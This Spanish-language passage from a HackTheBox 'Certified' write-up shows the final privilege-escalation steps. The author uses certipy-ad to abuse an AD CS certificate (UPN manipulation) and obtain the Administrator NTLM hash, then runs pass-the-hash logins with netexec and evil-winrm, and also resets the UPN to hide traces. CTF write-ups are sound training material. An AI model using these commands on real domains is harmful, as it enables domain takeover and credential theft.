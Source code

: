 <figure><img src="../../.gitbook/assets/2498_vmware_jyZkNvIaIo.png" alt=""><figcaption></figcaption></figure>

Posteriormente, restauramos el UPN de **CA\_OPERATOR** a su valor original para minimizar evidencias de la modificación realizada.

Seguidamente utilizamos el certificado emitido para autenticarnos y verificamos que obtenemos el hash NTLM del usuario "Administrator".

{% code overflow="wrap" %}
```bash
certipy-ad account update -username MANAGEMENT_SVC@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user CA_OPERATOR -upn CA_OPERATOR@certified.htb

certipy-ad auth -pfx administrator.pfx -domain certified.htb
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2499_vmware_lhpHWqABtq.png" alt=""><figcaption></figcaption></figure>

Obtenido el hash NTLM, procederemos a validar las credenciales a través de **netexec** y una vez verificado que son credenciales correctas, procederemos a autenticarnos a través de **evil-winrm**.

Obtenemos la flag de **root.txt**.

```bash
netexec smb 10.10.11.41 -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'

evil-winrm -i 10.10.11.41 -u 'Administrator' -H '0d5b49608bbce1751f708748f67e2d34'
```

<figure><img src="../../.gitbook/assets/2500_vmware_YYXDj7sVuS.png" alt=""><figcaption></figcaption></figure>
